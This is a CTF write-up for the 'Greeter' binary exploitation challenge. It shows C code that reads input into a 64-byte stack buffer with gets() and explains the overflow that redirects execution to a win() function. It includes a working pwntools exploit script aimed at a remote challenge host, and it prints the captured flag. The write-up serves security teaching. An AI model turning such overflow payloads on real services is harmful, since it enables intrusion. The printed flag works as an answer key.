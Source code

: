 # Greeter

Category: Binary Exploitation, Execution redirection
Created: Nov 5, 2020 12:45 PM
Points: 150
Solved: Yes
Subjective Difficulty: 🔥

# WriteUp:

## 🔎 Research:

When looking at the provided C code we can see a `WIN` function which obviously prints out the flag on the server:

```c
void win() {
	puts("congrats! here's your flag:");
	char flagbuf[64];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL) {
		puts("flag file not found!");
		exit(1);
	}
	fgets(flagbuf, 64, f);
	fputs(flagbuf, stdout);
	fclose(f);
}
```

So our goal is probably to redirect code execution to that function.

## 📝 Vulnerability Description:

When inspecting the main function we can see a basic [BufferOveflow Vulnerability](https://www.notion.so/Stack-based-Buffer-Overflows-8659881fbfb141d0afaca02b247e123d). Nothing more to say. We have no [Canary](https://www.notion.so/Stack-Canary-709e3077b2274a2ca080e49a68c35fd1) or other [BufferOverflow Mitigations](https://www.notion.so/Binary-exploitation-6bb56af09d9f40d38b75dd4f66f74d27).

## 🧠 Exploit Development:

Cause name is `64 bytes` long so we have to override `64bytes + rbp(8bytes) + return address(8bytes)` to WIN function:

```c
int main() {
	/* disable stream buffering */
	setvbuf(stdin,  NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	char name[64];

	puts("What's your name?");
	gets(name);
	printf("Why hello there %s!\n", name);

	return 0;
}
```

Cause there is **no** [PIE](https://www.notion.so/PIE-1fbf0cf6d422465289951e38eb7603df) we have fixed function addresses.
WIN is at `0x401220`, so exploit looks as follows:

## 🔐 Exploit Programm:

```python
from pwn import *

WIN_address = 0x401220

payload = b"A"*64+b"BBBBBBBB"+p64(WIN_address)

#p = process("./greeter")
p = remote("challenges.ctfd.io", 30249)

p.recvline() #What's your name?
p.sendline(payload)
p.interactive()
```

## 💥 Run Exploit:

![Greeter%20aaec2dbaabdf4c5aba39cb566fe1be64/successfull_exploit.png](Greeter%20aaec2dbaabdf4c5aba39cb566fe1be64/successfull_exploit.png)

**FLAG: nactf{n4v4r_us3_g3ts_5vlrDKJufaU0d8UR}**

## 🗄️ Summary / Difficulties:

Simple BufferOverflow. No challenging. Great to warm your brain up. 😉

## 🗃️ Further References:

- [Stack based Buffer Overflows](https://www.notion.so/Stack-based-Buffer-Overflows-8659881fbfb141d0afaca02b247e123d)

## 🔨 Used Tools:

- [Pwndbg](https://www.notion.so/Pwndbg-2c0c6540dc5444559bb84545f6dbbd48)

---

# Notes:

-